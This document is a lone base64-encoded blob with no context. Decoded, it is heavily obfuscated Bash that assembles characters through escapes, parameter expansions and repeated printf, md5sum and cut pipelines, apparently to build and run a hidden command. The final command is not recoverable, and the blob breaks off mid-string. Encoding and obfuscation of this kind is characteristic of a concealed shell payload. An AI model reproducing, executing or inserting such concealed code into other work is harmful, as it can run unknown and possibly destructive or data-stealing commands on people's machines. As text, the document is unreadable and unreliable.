CAkeyp+fXAkeyp+fn1yJydpXG4keyovLzIjY1g9Jj5wL15ORTx9dGYgJXMgJ3lrX21cNlQnICRAICAkeyolekUmcH0gfCAgIiR7QC92fj5EdX0iICIiJCdcMTU1ZDUnJCdcMTYzXDE2NScibSIgICAkeyojIzBwJi4kMEt9ICB8ICR7Kix9ICAkeyp+fSBjdVx0ICAtYiAgJFsgICAoKCR7KiUlQ0MxVUI4XHt9LTE3IzEzLS00IiMiIjIiMCkrMjgjMTUpICAgXS0kKCggKCgtIjkiIiMiMSIke0AvL00+XDtDXH1DL29EJXEqQmNJfSIwKjM3IzIpKzQzIiMiRSkgICkpICAgIiR7QCMjLFpjVz48fSIgJHsqLz5xPSxcKDFaL3dAWldaaXQ2fSApIiAgICR7QCx9ICA7ICR7IUB9IHAkeyovLzEzZDBSRX1yJCdcMTUxJ24iIlx0ZiAgICJceCQoICR7Ki8vP2dwPGNLSX0gICR7KiU8XChEU30gJCdcdTAwNzByJyR7KiU4WDFcey5cKCx9aW4iJHtAfn59InRmICAlcyAgICdpSih2Mno9PCcgICR7Kn5+fSAgICR7Ki8uSz1OLzpoWVdGfSB8ICAgJHsqLCx9ICBtZFw1JCdcdTAwNzMnInUibSAgJHtALy9cKVIyO30gICR7QH59ICAgfCAkeyojI3xaXF01S0habn0gJHsqIyNcYFwpXCI3cH0gICJjInUiInQgICAtYiAkWyAgKCgkeyp9LTQke0AjIz1Bc3l9IyR7KiUlZCZSZ05ATnh9MjArMTYiIyIxKSsxOSIjIiJjIikgIF0tJFsgKCgkeyosfS01IjMiIiMiYisiJHtALH0iNSMxMSkrOCMxMykgXSAgJHtALy8xXCgrTCZxa30gICAkeyolJTZcPnZhI30gICApIiAiJHtALy8kRSxTNVo2Yi9cKFx9bjFjc0xcIn0iICAgJiYgJHsqL2ozQFx1Z1R9ICBwXHJpJCdcdTAwNmV0J2YgICAiXHgkKCAkQCAgXHAkJ1x1MDA3MmknJHsqL1MwWCZQay9fQ1wpM31udGYgJXMgICAnYSYmZmJoIU4nICAgJHtALCx9ICAkeyovRmxzO0s5L2RFVnhGNX0gICB8ICAkKiAgICR7QC8vIyYzfnlWfSAgIm0iJCdkXHgzNSdzJyd1XG0gJHsqJUIkXChzKiV9IHwgICAiJHtALH0iICIke0B9IiBjInUidCAtYiAgJFsgKC0oLSgiMSI5JHsqIyNwSl9BU1B9IyIxIiR7ISp9My0tNDIiIyIkeypefXIpKyIzIiR7QH02I2kpKSAgIF0tJCgoICAgKC0oLSgtNDkkeyoveVx7dlwiVlwpMy85YlxOfSNpKzQiNCIjIjEiaikrMSIzIiMxMCkpICAgKSkgICAkeyojXCFEM1JcImM5LH0gICApIiAgJHtAfn59ICYmICAkeyFAfSAkeyp9ICAgJydwciQnXDE1MSduJyd0ZiAgIlx4JCggICAiJHtAL3UyOWNYfSIgIHByJHtAJTw6VnRXXF19aSR7Kn5+fW50XGYgJXMgJzY7cDs9JyAgJHtAfn0gICB8ICAgJHtAIyM0JTMkP0A3bX0gXG0nZCc1cyR7Ki8vQkRKaH11JHsqLzxmUyp9bSAgJHsqLH0gfCAkeyovMFxbJjYvQjUxQkB9ICAkeyFAfSAgYyIiXHVcdCAtYiAkKCggKC0oLSg1MCMkeyosfTEtIi0iMjgiIyJjKSs1IzExKSkgICApKS0kWyAgICgoLSIzIiI3IiMkeyovL0U6eEY1c31lKy0iNSIkeyosLH0jMTIpKzU1I3QpICAgXSAgICR7Kl5efSAiJHtAfSIgICkiICAgJHtAXn0gIDsgICR7QCwsfSAgJEAgcHIiJHtALH0iaScnIm4iJ3QnIiR7QH0iZiAgICJceCQoICAke0BefSAgJCdcMTYwJ1xyIiJpbiR7ISp9dGYgICAlcyAgICcxVXVgXCcgICR7KiwsfSAgIHwgJHsqIyN8NVxdYjRce30gbWQkWyAoLSgtKCI0IjUjIjIiLSItIiR7Kn5+fTQjIjIiMSkrMiIjIjExMCkpIF0kJ1wxNjMndSQnXHUwMDZkJyAgICIke0AjI0s+VkRiNVF9IiAkeyosfSAgfCAke0AvLzhwSmsvVX5cIko2S30gIiRAIiAgJCdjXDE2NSd0ICAgLWIgJFsgICAoLSgtKDIjMSIke0AvUCZhNldudH0iMCR7Kn59MDExMC0tMzgjeikrJHtAJSVRSzxtXm9jbX0zJHtALCx9MCMxImkiKSkgICBdLSRbICgoMjYjYS0yIzEwMCIwIikrNyMkeyovTlxdXClESW1aKi92LipOK2RDfTMzKSAgXSAgJHtAfn59ICR7QCMjPzBDOEJDI3J9ICApIiAgJHsqJSU4RDBcXSRcIn0gICR7QH0gICYmICAgJHsqJSU9Ljg1d3dMfSAiIlxwJyckJ3JceDY5XHg2ZVx1MDA3NCdcZiAgIlx4JCggICIke0AlJVxdKnVSO2txUn0iICAgIiR7QC9SblBNL0NsTDNuXFt+fSIgICAnJ3AkJ1wxNjJpJ24keyovL29nWVZ9dCIke0AsLH0iZiAgICVzICAnU1Y1PycgIiR7QH59IiAkeyovRUBKOm4mSyMvXGA3QWNNfSAgfCAgICR7Kn0gICBtZDUkJ3NceDc1JycnJHsqLy9teVlPfW0gICAkeyosLH0gIHwgJEAgJHtAXl59ICAgJHsqXn1jJHshKn11XHQgLWIgICRbICgoLTQiNiIjZSsyJHtALy9WLFpGUy9Rd1x7Lkd9NCMkeyFAfTEkeyovU0EyQFwpWX0wKSsiNSIjMTMpIF0tJFsgICAoLSgtKC0zNCMxLSR7QCUlJn4/MH0tNCMiJHtAL3JcKGU1Qn0iMSIke0BeXn0iMjApKyIyIiMxMCR7QC9jcUYzZ2c0U30wKSkgXSAgJHtAfSAgICkiICAiJHtAIyM4Omk/bHNZTX0iICAkeyp+fn0gJiYgJHtALCx9ICR7KiMjTElGSVRWZ30gICAicCIkJ1x4NzJceDY5J25cdGYgIlx4JCggICIke0AlJWlKP1lDeX0iICR7QCV3XGBcPDtMfSAgIHAkJ3JceDY5JyIiJ24ndGYgJXMgICAnY2x8Sn1vUicgICR7Ki8vWEk1d3w1On0gfCAke0B+fSAgICIke0B+fSIgICAnbSciJHtAXl59ImQ1JydzJycndSdtICAgJHsqLCx9ICB8ICAgJHtAI19ATEZcKH0gICR7QC8vQEZ0dUZeNDF9ICdjJyQnXHUwMDc1JyQnXHg3NCcgLWIgICQoKCAgICgtKC0oIjIiIyIxIiIwIjAiMSIrNSMzIjAiKSs0IyIzIjEpKSAgKSktJFsgICgtKC0oMyMiMSIkKjAiMCItLTIkeyovajkjbip9MSMiZiIpKyIke0B+fn0iNjAjYykpIF0gJHsqJS1cfVx9cFxdVn0gICApIiAiJHtALH0iICR7KiUlXCIzTzt2Y30gJiYgJHshQH0gICAiJHtAJWdNP2xsfSIgICBwXHJpblx0ImYiICAgIlx4JCggICR7Ki9oaGVRfSAke0AvL1wpOFwpWHx9IFxwJCdyXDE1MW4nJCdceDc0ZicgJXMgICdRWDtsUWR1PCcgICAke0AsLH0gJHsqLH0gICB8ICAke0AjI0l+fi03XChNOH0gIG1cZCQnXHgzNScnJyRAcycnXHVtICAke0AvLyR3dEVfM28vLXRuO0lXfSAgfCAgJHsqLH0gICIke0AsfSIgICQnXHUwMDYzJycnJCdcdTAwNzUnIiJcdCAgIC1iICQoKCAgICgoIi0iNSIjIjEiMCIqMyIjIiIke0BefSIyMCkrNTIjIjEiIjMiKSAgKSktJCgoICAoKDU3I3ctNiMkQDQzKSsiNiIyIyJsIikgKSkgICAke0AvXGBJQUxUXFx9ICAgKSIgICAkeyojRi4/c1h9ICAkeyosfSAgIDsgJHtALy9AM3xzJn0gICR7Kn59ICcnXHAnJ3JpJycibiIkeyp+fXRmICAiXHgkKCAke0B+fSAgXHByaSIke0AlJX42ekZmUkV9Im4ndCdmICAgJXMgICAnQUsjLTcxJyAgICR7QF59IHwgJHsqfn0gJHtALy8+SzpUJGdffSAgJCdceDZkJ2QiNSIkeyovL3I0RT1cITQvXHtOXH1wJm9IdX1zJCdcdTAwNzUnbSAgICIke0AsfSIgIHwgICR7Ki8vOFx9QDpcXX0gICBjdXQgICAtYiAgICRbICgtKC0oIiRAIjMjMTAqJHsqLy92cmZcKFwoXndqfTMjMikrMzMjIjAiKSkgXS0kWyAgKCgtMjcjMS0keyp+fn01JHtALy9FQDtqb0tILn0jMikrMzIkeyovSDxKd30jImEiKSAgIF0gIiR7QCUlV1xgXH1cIVp9IiApIiAgJHsqJU4xRlBhbyVefSAgJiYgICAke0AvOmpcXVdmOmhoLz5cXSVrXFsufSAkeyp+fn0gIiJwJCdcMTYyaSduJycidCIke0BefWYgICAiXHgkKCAgICIke0BeXn0iICAke0AjIyZIeFdnTX0gICcnXHByJ2knJCduXHg3NCckJ1x4NjYnICAlcyAnJXR6QEEmUCUnICR7KiUlRGZkVDtSOn0gICR7KiwsfSB8ICAgJHsqLH0gIG1cZDVccyd1J1xtICAkeyp9ICAgIiR7QC8vRCYxZGVOKit9IiAgfCAgIiR7QF5efSIgJydjdXQgIC1iICRbICAoKCI1IiMxMCo1NiR7Kl5efSMwKSs1NiNiKSBdLSQoKCAgICgoLSI2IjAiIyIxKjIjMTEpKyI0IiI4IiIke0B+fn0iIyQqZikgKSkgJHsqL0RtXCkzZTQjLypRNEImNmRGfSAgICkiICAgJEAgICAkeyovL0tpaGEzTVduL0MmaHd9ICAmJiAiJHtAJSVcfVwhRX5ZfSIgICR7Kix9ICBwJHsqfn1yaVxudGYgICJceCQoICAkeypeXn0gICAke0BeXn0gcFxyaSR7KiVeVjlldHNkfW4ke0B+fn10ZiAgJXMgJ1d8OjVaMncnICAgJHtAJSVnRnRkM159ICB8ICIke0AvL28jYVxgL343JlxddjQlfn0iICR7Kl5efSAgJCdcdTAwNmRkXHUwMDM1JyIiJCdcdTAwNzMnJyckeyEqfXVtICAke0AsLH0gICB8ICR7QCMkNVwien0gICIke0B+fn0iICBjJHsqLy81YTRcfUB9dSQnXHg3NCcgICAtYiAgICRbICAgKCg2MCMwKjI3IiR7QF5efSIjMCkrNjAjMSkgIF0tJCgoICAgKCgiMyIkeyosfSMiMCIqMyI3IiMwKSsiNCIyIzIpICkpICAgIiR7QCNxfjk8YS4yXCF9IiAke0B+fSAgICkiICR7QCx9ICAgIiR7QC9+PjImb30iICAmJiAgICIke0AvI1wiTVprbFwhL1BUXCE7dUdiUH0iICAgcCJyIlxpbnQkeyosLH1mICJceCQoICR7KiU9XClcKDxtfSAgcHIkeyovSFk9cX1pXG5cdGYgICAlcyAgICdUTVplOzxfXycgICQqICR7IUB9ICAgfCAiJHtALy9YRz81cGN9IiBtJHtALy9rfkVxX3UvWllkXGA6XCFQfWQiNSIkJ1x1MDA3MycnJyQnXDE2NScnJyQnXHUwMDZkJyAgJHtALzVPc0JeYi9tO3VRUzNtfSAgICR7Ki96XCRrWWZcKH0gfCAkeyovXCg0NSUvN3IsT0d9ICAnYyd1J3QnICAgLWIgJFsgKC0oLSgtMyR7Kn03IyR7KiU1aTArXH1cYDVqfWctLSIxIiR7KiwsfTMkQCMzYykrOCIjIjEwKSkgXS0kWyAoKCItIiR7Ki9UNm9cKEkwQC9tfGUuXGBMNFxcfTMkeyojP14sQnguK300JHsqI2h2c1whfSMiJHtAIyM0XHt2SkBIVH0iMTYrJHtALy8sLTpYTiMvOUhVQFB9MiIjIjEke0AvXClqYlUkL1RcbSRsQVwofTAwKSszJHtAL28kSFx7VFxKL29UVVh9OCMxJHsqLH1xKSBdICAke0AldXRkd1Y+fSApIiAke0AjI3BxdE1VKm59ICAkeyosfSA7ICAgJHsqfn0gICAiJHtAI1lXcEFmXCFafSIgICAncCciciJpJCduXHUwMDc0J2YgIlx4JCggJHsqLy9TakUlL2hUOkQ4fSAgIHBcclxpJ24nJyd0ZiAlcyAgICdLellbYXMnICR7IUB9ICAgJHsqfSAgfCAgICR7Ki8lcyZYblwid099ICAke0AvL3NkS3g0dC9RMFgzblREQn0gICdtJ1xkJHsqIyNeJnBsLDlRfTUnJ3N1bSAkeyEqfSAgICR7QCNyTkB5fSAgIHwgICR7IUB9IFxjJCd1XHg3NCcgLWIgICRbICgtKC0oJHsqLy9HbUVyKnk/Sn0yMSMiYSIqMyIjIjEiMSIpKzMkeyovL3xfPEgjPDxfL29iXCIzfTkjIiR7QH5+fSJpKSkgICBdLSRbICAgKCgiJHtAfn59Ii00NyMiYSItJHtAXn0tMyR7Ki8vZm52SDQsWS90Umt1fSMxJHsqLy9cIkt1eCteL3dcKXFxcFY8ZH0wKSszMCMxMCkgIF0gICAkeyoveC4kUHpEfSAgICIke0BefSIgKSIgICIke0AvWjw2Oi1BL0xoLVVGWkh0fSIgICAiJHtAI0J0dEhKfSIgICAmJiAke0B+fn0gJCdwXHg3MidcaW50JydmICJceCQoICAkeyolJTZmWn0gICAkeyojI19sJUl9ICAgcCR7QCMjXyQ4XCh9cmknbid0JydmICAlcyAgJ1JVelVjZT9pJyAgIiR7QH5+fSIgJHtAfn59IHwgICAke0AvbUIlXHt9ICAke0AveFUqMlwpM1xTL3ZvV1xdfSBtZCc1J3NcdW0gICAke0AjNCV8XChkOX0gIHwgICIke0BeXn0iICAgJHsqLy9yM2ZSLzBJZ1ZVfSBjdScndCAgLWIgICRbICgoIjUiIzEiMiIqMjIjIjAiKSs0JHsqJVkmXF1CJH4teH05IyJ1IikgICBdLSRbICAgKCgtJHsqLypGUlgxTS9HfFwhXCk1enMmfTU1IyIke0BeXn0iMSotIiR7QCVzanZcXTx9IjMjMTEpKzYke0AvLlwiVzkvfDsyMnVlZ30wIyIke0AvL3ROVFd9InIpIF0gIiR7QH59IiAgIiR7QCwsfSIgICApIiAkeyp+fSAgOyAgICIke0AvK1whVjVcXm19IiAgcHJpbnQkeyovQHk4MX1mICJceCQoICAke0AvLzVcXSxeOX0gICR7Ki8vOiZTci1lL0tKYU9IfSAgInAiJCdcMTYyJ2kkeypeXn1udGYgICVzICAgJyIkRlInICAgIiR7QH0iICAgJHtAJUVxbk19ICAgfCAgICR7KiVUOVx9V30gIG0kJ1x1MDA2NFx1MDAzNSciInN1Im0iICAke0AvL3lcIk9rMjdQL1x9Vj5vXFx9ICAiJHtALH0iICB8ICAke0AvL3g/LVVKXCkvOjskMn0gJHtAI1dcfVhlX2R9ICBjdXQgLWIgJCgoICgtKC0oLSIzIiMkeyp9MjAqLSIyIiMiMSIiMSIpKzQjMTEpKSApKS0kWyAoKC0iNiIiIyIxIjAiKjUjJHsqfTIpKzMkeyolaHdNJDc0Yn01I3EpICAgXSAkeyp9ICAgKSIgICAiJHtAI29WUGgjPn0iICAmJiAkeyovQ3ZQXCEsRlErfSAkeypefSBwJHsqfn1yIiInaSduJCdcdTAwNzQnJHtAXn1mICAgIlx4JCggICIke0AvOCN4Nnp9IiAkeyovL1AqVmZEcFB9IHByJycke0AlVU1UVC0zZH1pblx0XGYgICAlcyAnQTsqcS5QTTgnICIke0B9IiAgJHsqfn59IHwgICAke0AvSmklXn0gICAnJ1xtJCdceDY0JycnJHsqLzw5RXdPfTUkeyovL0lPZko3fC85PU1KcmpGM31zXHVcbSAgICR7Ki8kT1Z2PkBNfSAgICR7Kl5efSAgfCAgICIke0AsfSIgICcnXGMiIiQnXHUwMDc1dCcgLWIgJFsgICAoKCItIiIzIiMxJHsqLy9cXUUsMzs5QX0wKiItIjYwIiMiJHsqfn59MikrMyMiMiIxKSAgXS0kWyAgKC0oLSgtNCIwIiMxLSR7QF59LTE0IiMiMTcpKzQiIyIiMSIiMiIpKSAgXSAke0AvcUpmXCJFIy9MO24kXHt9ICAgIiR7QH5+fSIgKSIgICAkeyosLH0gICAkeyovXCFcfSRAL3pta0VUQ3l9ICA7ICAkeyEqfSAgJCdcMTYwJycnInIiIiIke0BeXn1pJCdcdTAwNmUnIiJ0ZiAgIlx4JCggICIke0AlXjlyLndTfSIgICRAICAgcCdyJ1xpXG5cdCIiJ2YnICAgJXMgICdfO1JWeCcgICAke0BeXn0gICAke0AvL2FpPSU1L29cPXF9IHwgJHtAXn0gICAiJHtALy95UF5PWUN9IiAgJCdceDZkZDUncyIke0B+fn0idW0gICR7Ki8vbVBVQ1A1fSAgICIke0AlSFA/YX0iICB8ICAgJHsqLy9RZHJXVmRTbi9PQmJAPjd2Jn0gICAkeypefSAgIiR7QCUlXGA2QHN9ImMkeyojJWthSjhOOyR9dVx0IC1iICAgJFsgICAoLSgtKDMiIyIiJHtAL2dvJm1RL3dcWzAsfSIxMi0tNCIjIjEiMyIpKzMke0AvL0N6UiU1Lz9cIlxgZTl0QX0jMTApKSAgXS0kKCggICAoKC0yJHsqfTAke0AvakNce1B9I2ErLTUiJHtAXl59IiMxMikrJHsqfn59MSIyIiMiMiIzKSAgICkpICIke0AvXmRfSUp5R1xdfSIgICApIiAgICR7Ki86aDQlQy0vLDNTSS5cKDRGfSAke0AvLzhXMGUyRypwL1B8JkdcIX0gIDsgICIke0BefSIgIFxwJCdcdTAwNzJcMTUxJyIiJCdcdTAwNmVcMTY0J2YgICAiXHgkKCAkeyosfSAgIFxwXHInJyR7QCMjZVZxXHt9aW50ZiAgJXMgICAnI0NjOycgICAiJHtAI28leiRcfXxQRn0iICAiJHtAXn0iICB8ICAgJHsqI0wtTSt9IG0keyovTDR0RTxBfWQ1XHN1J20nICR7QCM1bzxec1wifSAgJHtALCx9IHwgICRAIFxjXHVcdCAtYiAgICQoKCAgKC0oLSgiJHtAIyNlejZEPn0iNTgjIiR7QCx9IjItLTIiIyIxMSkrJHsqI0pLb347UFxcfTMjIjEiIjAiKSkgICkpLSRbICAgKCgtIjMiIjMiIzIrMyIjIiR7QCNDSV8mMzI8X30xIjEiKSsiJHtAfn59IjcjMSkgICBdICR7Kn5+fSAgICkiICAiJHtALCx9IiAgJiYgJHsqL1wiSHZYJS9paSRZX30gICAkeyojI0QkWThaMX0gIiJccCIiXHIkJ1wxNTEnXG50JydmICAgIlx4JCggICAkeyolJV5cfUpAV1xbSiN9ICAkeyovNk5QOFx7SE0vTXFRbX0gICQncFwxNjInXGludGYgJXMgJ2VPU1N2JyAke0BefSAkeyolJSV3XCFqfSB8ICR7Kn5+fSAgJCogJ20nIiJcZCIiNSR7QH5+fXMiIiQnXHg3NVx1MDA2ZCcgJHsqXl59ICR7Kl5efSAgfCAiJHtALzRQLFxcfSIgJHsqLCx9ICAnJyQnXHg2MydcdXQgICAtYiAkWyAoKCR7ISp9LTE5IzIrIjYiNCIjIiQqMikrMzMjIjEiKSAgIF0tJFsgICgtKC0oMyMxMS0tNTciIyIkeyolJX58fmt9MikrMiR7KiUlWndyY30jMTAwKSkgICBdICR7QH59ICApIiAke0BeXn0gJiYgICAiJHtAfn0iICAgJHsqfSAgICR7QC8vQlV6U2x9cCQnXDE2MicnJ2luJ3QnJCdceDY2JyAiXHgkKCAgICR7Ki9+XCg7TH0gICQnXHg3MCdccmkiIiQnXDE1NickJ1x4NzQnIiR7QC9fXmpcYE0tP0d9ImYgJXMgICAnX148OjBjZkgnICAkeypefSAgIHwgJHsqLyVfcENtQ1x7fSAgICJtImQ1cycndW0gICR7KiMjQmZFOG0wXF19ICAgfCAgICR7QF59ICIkQCIgICBjdXQgIC1iICAkWyAoLSgtKCR7Ki9ce2ZeYi9KQithRn0xJHsqLH02IiR7QF5efSIjZi0iLSI0JEAjMiIxIikrIjQiIzEiMiIpKSBdLSQoKCAgICgoNCR7Kn0jMTEqIi0iJHtAfn0yIiR7QH5+fSIjMTEwKSs0IjciIiMiMTIpICkpICAgJHsqLy9BXClIXCEsUn0gICApIiAkeyojIyRMJnp9IDsgICAiJHtAL1BcUFxbbGR9IiAgcHJpIiR7QF59Im50ZiAgICJceCQoICAkeyovL08wQiZSWU8vOF5TXjVfd30gICAiIiJwIicnIiR7QH0icmluJHtALH10JCdcMTQ2JyAlcyAnPiI1ficgJHsqL2dvcnhJL1wpQFVlOlxdKn0gICAkKiB8ICR7QCNsM1xgb0RPfSAgJHtALy9fVyt1XCFzfSAkeyosfW0nJ2Q1c3UiIiQnXHUwMDZkJyAgICR7KiNIP1xaZ29hfSAiJHtAJSU0KyY2QFwhOX0iICB8ICAgJHsqL0tRR0dVL3VxXkVSV0p9ICQnY1x4NzUnXHQgICAtYiAkKCggICAoLSgtKC02IzEzKi0zIiMiMSR7Ki8vV0lKXCgxUH0yKSszJHtAXl59NiMiZiIpKSAgKSktJCgoICAgKC0oLSgzNSMxbC0keyolJUpyXCFnfS01NiNSKSsiMyIxIiR7QH0iIyIyImcpKSAgKSkgJHsqLy9cWzB2JG1KfSAgJHsqL3dYQ2NGL1xgO2xcall9ICAgKSIgICR7Ki8vblZiK1wiNjFqLyQlJW1RdH0gJiYgICAkeyosfSAkeyovL2IjcE5MTUB9ICdwJydyJyIiaSQnXHUwMDZlJ3QiIiIke0AjI2hRXChcTn0iZiAgIlx4JCggICAke0AlLm50R30gICJwInInaSdudCIiZiAgJXMgJz4pK0AnICAgJHshQH0gfCAgIiR7QF59IiAgICQnbVwxNDQnNXN1bSAgJHsqfn59ICAiJHtAXn0iIHwgICR7QCMjUzNcKGZ8NDV9ICAgIiR7QC8vOkFcIkpFTWkvSFA6XFx9IiAgJydjJCd1XHUwMDc0JyAgLWIgICQoKCAgKCgtJHsqXl59NiR7QH0zIyJpIisxNiMxMCkrNTMiIyIiYyIpICkpLSQoKCAgKCgke0BeXn00IzExKyR7KiVsQT1oP3VmfS00IzEwKSsiNCI0IyR7KiMjQlhcYG96fWEpICkpICIke0B+fn0iICkiICAkKiAiJHtALy9cKG1HaTRQJUx9IiAgICYmICAiJHtAJSV8KnRfJV9yfSIgIiRAIiAgIiJccCQnXHg3MmknbnQnJ2YgICAiXHgkKCAiJHtALH0iIFxwJyckJ1x1MDA3MidpJHtALH1uJyd0JHsqJS1hXCkjPjJjfWYgJXMgICdBR3paOScgICR7QF5efSAgICIke0AlJT4qXH1FQHo7fH0iIHwgICAke0AjIy1oPVx7dHh3fSAkeypefSAkeyovJG4td31tZDUkeyolJWRSKktqbTpVfXN1IiIkJ1wxNTUnICR7KiV2TlxgcH0gICR7QCNUXnh+MFBcIn0gIHwgICIke0AsLH0iICAgIiR7QC8vI2ZsRy8qLSZBLX0iICAgY3UiJHtAJSVCXH13XCl6bn0idCAtYiAkKCggKCgkeyovLyxHR3VcIXlBcX0tJHsqXn0yMSR7Ki9GU34rbTMvdT5cKW9nMX0jMSoxNiMwKSskeyosLH0zNiR7QC8vaVVcKFxgL0FaPVJ9IzIpICkpLSRbICAoLSgtKDE4IzAtLSIyIiMiMSIiJHtAXl59IjEpKyI1IiI2IiMwKSkgIF0gICR7QCMjLDVcKTp9ICkiICAkeypefSAke0AvWWktTF4vTEhhRVdJfSAgICYmICAgIiR7QC8kbktsVHd9IiAkeyovUE5HRyxZfSBccHIiImlcbiQnXHg3NCciIiQnXHUwMDY2JyAgIlx4JCggICIke0BeXn0iICAgcCJyImlcbnRmICAgJXMgICc+TH5+b20nICAke0AlXF1cKUdVOll9ICAgIiR7QCwsfSIgfCAgJHsqLCx9ICIke0AlbFplejBRZlN9IiAgXG1kNSdzJ3Uke0BeXn1tICAkeyEqfSAgIHwgJEAgICBjdSIke0AlQ1k0LTZ9InQgLWIgICAkKCggICAoLSgtKDUjMSIzIi0tNSI2IiNkKSs1OSIjIiQqYykpICApKS0kKCggICAoKCIke0AvT0prNUsrL1xgVE5PeX0iLSR7KiwsfTQ0IzIqMyIke0BefSIjIjEiMCkrIjMiMiNnKSApKSAgIiR7QC8velBsSDtURDEvJj9yZmZlfSIgICApIiAiJHtAfSIgICAkKiA7ICAgJHtAfn59ICAgJHsqLCx9IHBcciIiJCdcMTUxJ250JydmICJceCQoICIke0AjIzNQfGY0fSIgICAkeyp9ICBwInIiaSQnblwxNjQnXGYgICAlcyAnWG5eJT9LbCcgICIke0B+fSIgICR7Kl59ICAgfCAgICR7KiMjVXNce0BcfVh9ICAgJHtAJSU0LXVsZVBce30gbSJkIjVcc3UkeyEqfW0gICAke0BefSAgfCAiJHtAfSIgJHtAL00/IzZpXCgvWnU1SFY3fSAgJCdjXHUwMDc1dCcgICAtYiAgICRbICgoIiR7QF5efSI1IiR7QC8vVzl2XF1XWVxRfSI2I2ItIi0iIjMiIzEiMSIpKzI4IiMiMikgXS0kWyAgKC0oLSgiNCI1I2ktLTYjIjEiIiR7QCMzI3EkfSIwKSsyIiR7QCNcWyY6JTx8ZWd9IiMkeyovU0lWTztiL2xKRmtAfTEiMSIwKSkgXSAiJHtAfn0iICApIiAgICIke0Avc0U2NG14OlovOnVeI3B3fSIgICAmJiAgICR7QCwsfSAgIHAkJ1wxNjInJCdcdTAwNjluJycndGYgIlx4JCggICAkeyovUnp0ej1Fbn0gcFxyaW50ZiAgICVzICAnXjg7NjA8JyAgJHsqLy9ON2hafSAgfCAgICR7Kn59ICIke0AjIztcKT5sQ0ZafSIgICAiIiIke0B+fn0ibSR7Kl5efWRcNXMkJ1x4NzVtJyAiJHtAIztWLFxgXChZc30iICAgfCAkeyosfSAgICQnY1x1MDA3NScnJyJ0IiAgLWIgICAkWyAgKCgkeyosfS0yOSIjIjEiJEAiZCs0IjUiI2opKyIxIiI0IiMzMikgIF0tJCgoICAoLSgtKDMjIjIiMTEtLTIzIyR7KiMjb05cIjZCXCJxfTFnKSsiMSIyIzMzKSkgICkpICAgIiR7QH0iICkiICR7KiUlNkMrVTxIfH0gOyAkeyojN3VHQH0gICAkeyolakB0QX0gICAnJyJwInIkJ1wxNTFudCciZiIgIlx4JCggICR7QH59ICAgJHtAXl59cHJpJHsqL0lIemdyfW50ZiAgJXMgJ0ZqMDNFJyAgICR7Ki8vQ3JycWszfSB8ICAgIiR7QCMjb3ozP2NRfSIgICAiJHtAJSU1fC0+cH0iICJtImQnJ1w1cyQnXHg3NSdcbSAgJHsqXl59ICAkeypefSAgIHwgJHtALy9lTUlhL1x9PSxcXX0gICAkeyolJXBcIlwpc30gICAnJyJjIicnJ3UnXHQgIC1iICAgJFsgKC0oLSgiMiI3JHtAfn0jJHsqLCx9MSIzIi0ke0AjIzs+I14qJX0tIjEiIjciIzEyKSskeyovSHxlWlhjL1BWbWxqS30yJHtAfn59MiMkeyp+fWspKSAgXS0kWyAgKCgtMTUjImUiKyI1IiR7KiNkaE0kbm9WfTQjbSkrMzAjbSkgICBdICR7QF59ICAgJHsqLH0gICApIiAgIiR7QH5+fSIgIiR7QH59IiA7ICR7Kn0gIHByaW4kJ1x4NzQnXGYgICJceCQoICAke0AvL1x9MEtAZEZBcy8lMjhcW0R9ICR7QCNBNlBGLkV9ICAkeyolJWRSfHV9cCR7Ki8vPl58Vn1yIiJcaSIiblx0ZiAgJXMgICAnQytTNTAnICAgJHsqfSAgJHtAJW0yeG09cUB9ICB8ICR7Ki8vK3IwXCh9ICAgJHsqL1IxLWwrQX0gICAibSJkNXMnJyQnXHg3NW0nICAiJHtAI1wpLlx9Rk9SfSIgICB8ICAkeyp+fn0gICAnYycnJ3UnJ3QgLWIgJFsgICgtKC0oJHtAI2YyeV9uXGl4fTI4I2otLSRAMjMkeyEqfSMxNSkrMzgkeyovL2lEMUE3ZnolLz9URVZ9IyJzIikpICBdLSRbICAgKCgtNCMxMSoiMiIkQCMxMCIke0AvSDQqQ04lVSR9IjApKyR7KiwsfTM3IzEzKSAgIF0gICAkeyolVUdGUn0gICApIiAgICR7QC8vSlozQkpBS1QvYl5WXnd9ICYmICQqIHByJCdceDY5J24keyolJWtvdm9sJV5FfXRmICAgIlx4JCggICAiJHtAfSIgICAnJ3AiInIiaSInbid0ZiAgJXMgJ3o9P2UnICR7Kn5+fSAkeyojTmJObSREfSB8ICIke0AlZHR8M1xdc30iICAke0B+fn0gICBtZFw1JCdcMTYzJ3UiJHtAfSJtICAgIiR7QCViPFUufSIgJHsqXl59IHwgICAiJHtAfSIgICBjJHsqXl59dSJ0IiAtYiAgJFsgKCgke0AjIzl2Q3F9LTMjIjEiMCo0NiMyKSs0IjIiI2MpICAgXS0kKCggICgtKC0oNSR7QF59MyMxKyI5IiMxJHsqIzYuWHB8fTApKzMiIyIxMCkpICkpICAgJHsqL3c6MzVWXF0vPDlCLmdZfSAgIiR7QF59IiApIiAgJHsqL2FJXCF3N0QufSA7ICAgJHtAJSVRNHFcfWRHVX0gICBccCIicmlcbnQiIiR7QH59ZiAgIlx4JCggICAkeyovbEwwNFVcImUvc34tZExafSAgcHInJ2ludGYgICAlcyAgJzczVUJyOWYnICR7IUB9ICB8ICAke0B9ICR7KiUlUD9VXG5XSn0gICIke0B+fSJtJydkNVxzdW0gICAiJHtAIyM/MlwiSTJce30iICAgIiR7QH59IiB8ICR7QC8vXChJN1U+JVlVL3E6UmwsbWc+fSAgJHsqI3U7b0V6bkZqfSAnJyJjIid1J1x0ICAtYiAgJCgoICAgKC0oLSgzIzEyKiR7Ki9qfHloR0FOQX00IiMiMTEpKzgiIyIxJHsqXl59MSkpICApKS0kWyAgKC0oLSgiNiIjIjEiMy0tIjEiNSMiMSIke0AlJVI0V1xgLktMc30xKSs2IiR7QCMkLTJSXHtUXGBVfSIjMSIyIikpIF0gICAkeyosfSAgICR7Ki9lLm9zfSApIiAkeyovRzBpb18vUFwpLGFNXE99ICR7KiUlbjgjPj5cKE19ICA7ICIkQCIgcFxyJCdceDY5J1xuInQiJyciJHtALy9cIk9McCtCL3dVXCI3Xzx9ImYgIlx4JCggICAiJHtALH0iICBwciIiJCdceDY5J1xuJyd0ZiAlcyAgICdFXl1DcTVBJicgJHtAfSAkeypefSAgfCAgICR7Kn59ICR7Kn59ICAgJHsqXl59bSIke0AjIzFAY3FRP30iZDUnJ3N1bSAgICR7Ki9cIT9ccmFQQH0gICAkeyovU3JELlwhL1whcVwoazh9ICAgfCAgICR7Kn59ICAkeyosLH0gY1x1dCAgLWIgJCgoICgtKC0oJHtAJSUrRlx9RlxdMFJifT